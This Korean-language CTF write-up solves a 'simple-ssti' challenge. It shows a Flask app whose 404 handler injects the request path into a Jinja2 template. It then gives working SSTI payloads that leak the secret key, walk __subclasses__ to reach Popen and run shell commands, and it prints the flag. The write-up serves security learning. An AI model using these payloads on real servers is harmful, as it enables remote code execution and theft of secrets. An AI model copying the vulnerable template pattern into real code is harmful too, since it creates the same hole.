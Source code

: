 https://honey-push-30b.notion.site/simple-ssti-243ee65108ad4539a0595d32841e4bf3

# 문제파일 다운로드

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ce34d5ac-feb4-409c-85e2-0233c394020a/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC_%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)

simple-ssti 문제의 접속 정보와 문제파일을 다운로드 받을 수 있다. 다운로드 받으면 [app.py](http://app.py) 파일을 받을 수 있는데 이 파일의 코드는 아래와 같다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, render_template_string, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

app.secret_key = FLAG

@app.route('/')
def index():
    return render_template('index.html')

@app.errorhandler(404)
def Error404(e):
    template = '''
    <div class="center">
        <h1>Page Not Found.</h1>
        <h3>%s</h3>
    </div>
''' % (request.path)
    return render_template_string(template), 404

app.run(host='0.0.0.0', port=8000)
```

# 문제 풀이

SSTI (Server Side Template Injection)의 경우 웹 어플리케이션에서 동적인 내용을 출력할 때 Template 엔진을 이용해서 출력할 때 발생하는 취약점이다. Template 소스에 사용자의 입력이 들어가게 된다면 의도하지 않은 Template 기능을 실행할 수 있기 때문이다.

위 app.py의 경우 Flask를 사용하였고 Flask에서는 특별한 별도의 설정을 해주지 않는 경우 Jinja2 템플릿을 사용한다.

Error404 함수를 보면 사용자가 요청한 path를 template에 넣어주기 때문에 이를 이용해서 Template기능을 사용할 수 있다.

{{3*3}}을 넣어서 실제로 9가 출력되는지 테스트해보자.

![404Error페이지.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6c09c1bd-f0e7-4260-a93d-7b8e05d905ca/404Error%ED%8E%98%EC%9D%B4%EC%A7%80.png)

404Error 페이지에서 path를 404Error가 아닌 {{3*3}}을 넣어주자

![try1..PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/873eed75-e3dd-4dad-9f81-5d0cefa90e25/try1..png)

{{3*3}}을 넣어주면 계산 결과 값인 9가 출력될 것이다.

![try1-1.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d7836f4c-3d48-4bcb-9b8d-9119c890fd43/try1-1.png)

{{3*3}}을 path로 넣어주면 위와 같이 출력된다. %7B 는 { 이고 %7D는 } 이다. 입력값을 이용해 Template 엔진을 사용할 수 있음을 알았으므로 플래그를 찾아보자. 플래그는 flag.txt의 FLAG 변수에 있다고 했다. 하지만 위의 코드에서 app.secret_key에 FLAG를 저장하기도 하므로 app의 secret_key값을 출력해도 된다.

# app의 secret_key값을 통해서 출력하는 방법

app객체에 직접적인 접근을 통해서 출력하기 위해서는 url_for.__**globals__**.current_app.secret_key 을 이용하면 된다. (문제 질문에서 찾았다.)

![app에 직접접근.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5a3c3ef1-4f3a-4054-bb67-b60d94234a78/app%EC%97%90_%EC%A7%81%EC%A0%91%EC%A0%91%EA%B7%BC.png)

{{url_for.__**globals__**.current_app.secret_key}}을 path에 넣어주면 app의 secret_key값이 출력된다.

![app에 직접접근-1.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e8cc831d-f426-41ec-9e10-0d344f26c8b7/app%EC%97%90_%EC%A7%81%EC%A0%91%EC%A0%91%EA%B7%BC-1.png)

**DH{6c74aac721d128c637eab3f11906a44b} 플래그 값을 찾았다.**

# 로컬에 명령어를 통하여 Flag.txt에 접근해 출력하는 방법

이 문제에서는 app.secret_key에 FLAG를 저장하였기 때문에 직접 app객체에 접근하여 출력할 수 있지만 그렇지 않을 경우 FLAG.txt에 직접 접근을 해야한다.

그렇게 하기 위해서는 일단 config.items()를 통하여 사용할 수 있는 객체들의 목록을 출력해보자.

![config_item.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cf39ca8c-daab-4adb-9c00-d1fe3156847a/config_item.png)

아쉽게도 os 라이브러리가 없는 모습이다. 그래서 os라이브러리를 추가해서 os 객체를 이용해보자.

{{config.from_object('os')}}*를 통해 os 객체를 추가해주자.

![os라이브러리 추가.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/13a1ec7d-ba4e-4dd5-9bf9-a0b56924c6e7/os%EB%9D%BC%EC%9D%B4%EB%B8%8C%EB%9F%AC%EB%A6%AC_%EC%B6%94%EA%B0%80.png)

그러고 나서 다시 {{config.itmes()}}를 해보면 config에 많은 것들이 추가된 것을 볼 수 있다. os라이브러리가 추가 된것이다.

![config_item-2.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad38c945-b853-40c2-8d10-8d2dd79c7bdb/config_item-2.png)

이제 사용할 수 있는 class를 찾기 위해서 {{''.__**class__**.__**mro__**}}를 넣어주자

![class 목록.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5ff26726-bcba-458c-85d9-893fa331c89a/class_%EB%AA%A9%EB%A1%9D.png)

파이썬에서는 우리가 사용하고자 하는 함수들(popen 등)이 object 클래스 이므로{{”.__class__.__mro__[1].__subclasses__()}} 를 이용해 하위 함수들을 출력해보자.

![object하위 함수들.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5eaf0ecd-ba69-4a1e-a799-3f4c4913f7ef/object%ED%95%98%EC%9C%84_%ED%95%A8%EC%88%98%EB%93%A4.png)

![Popen.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e936e84e-d529-4274-ae0b-5cf8a51033fc/Popen.png)

이 중에서 Ctrl+F를 통해서 Popen이 존재하는 것을 확인할 수 있다. 그렇다면 이게 몇번째인지 찾기 위해서 약간의 노가다를 했다.

![303.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3b249d5d-3cfc-4688-9b94-606e10e079d9/303.png)

{{”.__class__.__mro__[1].__subclasses__()[303]}}은 loggin.Formatter이다.

보면 logging.formmater보다 한참 뒤에 있는 것을 볼 수 있다.

![노가다.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9737a63b-2639-4c88-a87a-7aec89ab5a34/%EB%85%B8%EA%B0%80%EB%8B%A4.png)

이를 반복하면서 노가다를 하면 Popen은 408번째 임을 알 수 있다.

![Popen 408.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/202d5d69-3af7-4f87-bb93-20ed7a48f268/Popen_408.png)

그러면 이 함수 뒤에 우리가 원하는 명령어를 붙여서 Popen을 사용해주면 된다. 먼저 ls를 사용해보자.{{”.__class__.__mro__[1].__subclasses__()[408](’ls’,shell=True,stdout=-1).communicate()}}를 이용하자

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6a17d504-5b7a-4adc-a70e-76bda8164a24/Untitled.png)

flag.txt가 존재하는 것을 확인할 수 있다 그러면 이 값을 cat으로 출력해주자

{{”.__class__.__mro__[1].__subclasses__()[408](’cat flag.txt’,shell=True,stdout=-1).communicate()}}

![결과.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/da319ff6-d22f-44f1-923a-1d5a98fbd322/%EA%B2%B0%EA%B3%BC.png)

**DH{6c74aac721d128c637eab3f11906a44b} 값을 찾을 수 있다.**
